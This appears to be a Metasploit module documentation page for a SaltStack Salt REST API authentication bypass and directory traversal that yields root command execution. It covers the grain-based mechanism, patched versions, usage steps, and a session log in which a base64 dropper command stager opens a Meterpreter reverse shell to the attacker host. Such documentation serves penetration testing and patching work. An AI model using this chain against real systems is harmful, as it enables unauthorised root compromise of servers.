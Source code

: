 ## Vulnerable Application

### Description

This module leverages an authentication bypass and directory traversal
vulnerabilities in Saltstack Salt's REST API to execute commands remotely on
the `master` as the root user.

Every 60 seconds, `salt-master` service performs a maintenance process check
that reloads and executes all the `grains` on the `master`, including [custom
grain
modules](https://docs.saltproject.io/en/latest/topics/grains/#writing-grains)
in the Extension Module directory (see `EXTMODSDIR` [option](#extmodsdir)). So,
this modules simply creates a Python script at this location and wait for being
executed. The time interval is set to 60 seconds by default but can be changed
in the `master` configuration file with the `loop_interval` option. Note that,
if an administrator executes commands locally on the `master`, the maintenance
process check will also be performed.

It has been fixed in the following installation packages: 3002.5, 3001.6 and
3000.8

Also, a patch is available for the following versions: 3002.2, 3001.4, 3000.6,
2019.2.8, 2019.2.5, 2018.3.5, 2017.7.8, 2016.11.10, 2016.11.6, 2016.11.5,
2016.11.3, 2016.3.8, 2016.3.6, 2016.3.4, 2015.8.13 and 2015.8.10

This module has been tested successfully against versions 3001.4, 3002 and
3002.2 on Ubuntu 18.04

### Setup

Follow the [installation steps](https://repo.saltstack.com/#ubuntu) for Ubuntu
or choose another OS from the same page.

## Verification Steps

1. Install the application (follow [Setup](#setup))
1. Start msfconsole
1. Do: `use exploit/linux/http/saltstack_salt_wheel_async_rce`
1. Do: `set rhosts <ip>`
1. Do: `set lhost <ip>`
1. Do: `run`
1. You should get a Meterpreter session.

## Targets

### 0 (Unix Command)

This executes a Unix command.

### 1 (Linux Dropper)

This uses a Linux dropper to execute code.

## Options

### TARGETURI

The base path of the Saltstack Salt application, which is set to `/` by
default.

### EXTMODSDIR

The Extension Module directory ("extmods") for the `master`. On older versions,
this directory was `/var/cache/salt/extmods`. It has been moved to
`/var/cache/salt/master/extmods` from version `2016.3.0` and is the default
option value. The Python file will be placed in the `grains` directory under
this path. Salt automatically creates the sub-directories if they don't exist.

## Scenarios

### SaltStack Salt 3002.2 on Ubuntu 18.04

```
msf6 > use exploit/linux/http/saltstack_salt_wheel_async_rce
[*] Using configured payload linux/x64/meterpreter/reverse_tcp
msf6 exploit(linux/http/saltstack_salt_wheel_async_rce) > set rhosts 192.168.144.136
rhosts => 192.168.144.136
msf6 exploit(linux/http/saltstack_salt_wheel_async_rce) > set lhost 192.168.144.1
lhost => 192.168.144.1
msf6 exploit(linux/http/saltstack_salt_wheel_async_rce) > set verbose true
verbose => true
msf6 exploit(linux/http/saltstack_salt_wheel_async_rce) > options

Module options (exploit/linux/http/saltstack_salt_wheel_async_rce):

   Name        Current Setting                 Required  Description
   ----        ---------------                 --------  -----------
   EXTMODSDIR  /var/cache/salt/master/extmods  yes       The Extension Module Directory ("extmods")
   Proxies                                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS      192.168.144.136                 yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT       8000                            yes       The target port (TCP)
   SSL         true                            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI   /                               yes       Base path
   URIPATH                                     no        The URI to use for this exploit (default is random)
   VHOST                                       no        HTTP server virtual host


Payload options (linux/x64/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.144.1    yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Linux Dropper


msf6 exploit(linux/http/saltstack_salt_wheel_async_rce) > run

[*] Started reverse TCP handler on 192.168.144.1:4444
[*] Executing automatic check (disable AutoCheck to override)
[!] The service is running, but could not be validated. Salt API responded as expected.
[*] Executing Linux Dropper for linux/x64/meterpreter/reverse_tcp
[*] Generated command stager: ["echo -n f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAAeABAAAAAAABAAAAAAAAAAAAAAAAAAAAAAAAAAEAAOAABAAAAAAAAAAEAAAAHAAAAAAAAAAAAAAAAAEAAAAAAAAAAQAAAAAAA+gAAAAAAAAB8AQAAAAAAAAAQAAAAAAAASDH/aglYmbYQSInWTTHJaiJBWrIHDwVIhcB4UWoKQVlQailYmWoCX2oBXg8FSIXAeDtIl0i5AgARXMCokAFRSInmahBaaipYDwVZSIXAeSVJ/8l0GFdqI1hqAGoFSInnSDH2DwVZWV9IhcB5x2o8WGoBXw8FXmp+Wg8FSIXAeO3/5g==>>'/tmp/GoVCZ.b64' ; ((which base64 >&2 && base64 -d -) || (which base64 >&2 && base64 --decode -) || (which openssl >&2 && openssl enc -d -A -base64 -in /dev/stdin) || (which python >&2 && python -c 'import sys, base64; print base64.standard_b64decode(sys.stdin.read());') || (which perl >&2 && perl -MMIME::Base64 -ne 'print decode_base64($_)')) 2> /dev/null > '/tmp/sYLkD' < '/tmp/GoVCZ.b64' ; chmod +x '/tmp/sYLkD' ; '/tmp/sYLkD' & sleep 2 ; rm -f '/tmp/sYLkD' ; rm -f '/tmp/GoVCZ.b64'"]
[*] Executing command: echo -n f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAAeABAAAAAAABAAAAAAAAAAAAAAAAAAAAAAAAAAEAAOAABAAAAAAAAAAEAAAAHAAAAAAAAAAAAAAAAAEAAAAAAAAAAQAAAAAAA+gAAAAAAAAB8AQAAAAAAAAAQAAAAAAAASDH/aglYmbYQSInWTTHJaiJBWrIHDwVIhcB4UWoKQVlQailYmWoCX2oBXg8FSIXAeDtIl0i5AgARXMCokAFRSInmahBaaipYDwVZSIXAeSVJ/8l0GFdqI1hqAGoFSInnSDH2DwVZWV9IhcB5x2o8WGoBXw8FXmp+Wg8FSIXAeO3/5g==>>'/tmp/GoVCZ.b64' ; ((which base64 >&2 && base64 -d -) || (which base64 >&2 && base64 --decode -) || (which openssl >&2 && openssl enc -d -A -base64 -in /dev/stdin) || (which python >&2 && python -c 'import sys, base64; print base64.standard_b64decode(sys.stdin.read());') || (which perl >&2 && perl -MMIME::Base64 -ne 'print decode_base64($_)')) 2> /dev/null > '/tmp/sYLkD' < '/tmp/GoVCZ.b64' ; chmod +x '/tmp/sYLkD' ; '/tmp/sYLkD' & sleep 2 ; rm -f '/tmp/sYLkD' ; rm -f '/tmp/GoVCZ.b64'
[*] Command Stager progress - 102.16% done (851/833 bytes)
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3008420 bytes) to 192.168.144.136
[+] Deleted /var/cache/salt/master/extmods/grains/b4R9SayBPn.py
[+] Deleted /var/cache/salt/master/extmods/grains/__pycache__/b4R9SayBPn.cpython-36.pyc
[*] Meterpreter session 1 opened (192.168.144.1:4444 -> 192.168.144.136:37806) at 2021-03-25 21:23:57 +0100

meterpreter > getuid
Server username: root @ ubuntu (uid=0, gid=0, euid=0, egid=0)
meterpreter > sysinfo
Computer     : 192.168.144.136
OS           : Ubuntu 18.04 (Linux 5.4.0-70-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > [*] Shutting down Meterpreter...

[*] 192.168.144.136 - Meterpreter session 1 closed.  Reason: User exit
```
